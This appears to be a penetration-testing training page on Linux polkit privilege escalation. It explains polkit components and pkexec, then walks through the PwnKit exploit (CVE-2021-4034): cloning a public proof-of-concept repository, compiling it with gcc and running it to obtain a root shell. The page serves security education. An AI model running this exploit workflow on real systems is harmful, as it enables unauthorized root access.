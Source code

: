 PolicyKit (`polkit`) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. 
* To check whether the user software is authorized for this instruction, `polkit` is asked. 
* It is possible to set how permissions are granted by default for each user and application. 
	* For example, for each user, it can be set whether the operation should be generally allowed or forbidden, or authorization as an administrator or as a separate user with a one-time, process-limited, session-limited, or unlimited validity should be required. 
	* For individual users and groups, the authorizations can be assigned individually.

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. 
* Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

In the `pkexec` tool, the memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation. 
* This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. 
* Finally, in November 2021, this vulnerability was published and fixed two months later.

To exploit this vulnerability, we need to download a [PoC](https://github.com/arthepsy/CVE-2021-4034) and compile it on the target system itself or a copy we have made.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Once we have compiled the code, we can execute it without further ado. After the execution, we change from the standard shell (`sh`) to Bash (`bash`) and check the user's IDs.

Polkit

```shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```

